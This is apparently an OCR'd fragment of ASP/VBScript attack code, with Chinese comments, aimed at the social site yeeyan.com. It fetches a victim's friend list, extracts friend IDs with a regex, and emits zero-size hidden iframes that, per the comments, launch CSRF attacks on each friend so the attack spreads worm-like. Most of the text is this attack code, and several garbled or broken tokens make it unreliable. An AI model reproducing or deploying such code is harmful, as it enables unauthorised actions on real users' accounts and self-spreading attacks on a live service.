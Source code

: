 ```
        Dim regEx
        Dim Match
        Dim Matches
        Set regEx        = New RegExp
        regEx.Pattern    = patrn
        regEx.IgnoreCace = True
        regEx.Global     = True
        Set Matches      = regEx.Execute(str)    

        For Each Match in Matches
            RetStr          = RetStr & Match.Value & " | "
        Next    

        regx             = RetStr
    End Function    

    Function bytes2BSTR(vIn)
        Dim strReturn
        Dim i1
        Dim ThisCharCode
        Dim NextCharCode
        strReturn      = ""    

        For i1 = 1 To LenB(vIn)
            ThisCharCode  = AscB(MidB(vIn,i1,1))    

            If ThisCharCode <  & H80 Then
                strReturn    = strReturn & Chr(ThisCharCode)
            Else
                NextCharCode = AscB(MidB(vIn,i1 + 1,1))
                strReturn    = strReturn & Chr(CLng(ThisCharCode) * & H100 + CInt(NextCharCode))
                i1           = i1 + 1
            End If    

        Next    

        bytes2BSTR = strReturn
        End
        id         = Mid(r,34) '获取用户标识ID，如:hving
        furl       = "http://www.yeeyan.com/space/friends/" + id '用户好友列表链接是这样的
        Set http   = Server.CreateObject("Microsoft.XMLHTTP") '使用这个控件
        http.Open "GET",furl,False '同步，GET请求furl链接
        http.Send '发送请求
        ftext  = http.ResponseText '返回请求结果，为furl链接对应的HTML内容
        fstr   = regx("show/(\d+)?"">[^1-9a-zA-Z]+<img",ftext)
        '正则获取被攻击用户的所有好友的ID值，CSRF留言时需要这个值
        farray = Split(fstr , " | ")
        '下面几句就是对获取到的ID值进行简单处理，然后扔进f(999)数组中
        Dim f(999)    

        For i = 0 To UBound(farry) - 1
            f(i)    = Mid(farray(i),6,Len(farray(i)) - 16)
        Next    

        Set http = Nothing    

        s        = ""    

        For i = 0 To UBound(farray) - 1
            s       = s + "<iframe width=0 height=0 src='yeeyan_iframe.asp?id=" & f(i) & "'></iframe>" '接着循环遍历好友列表，使用iframe发起CSRF攻击
        Next    

```
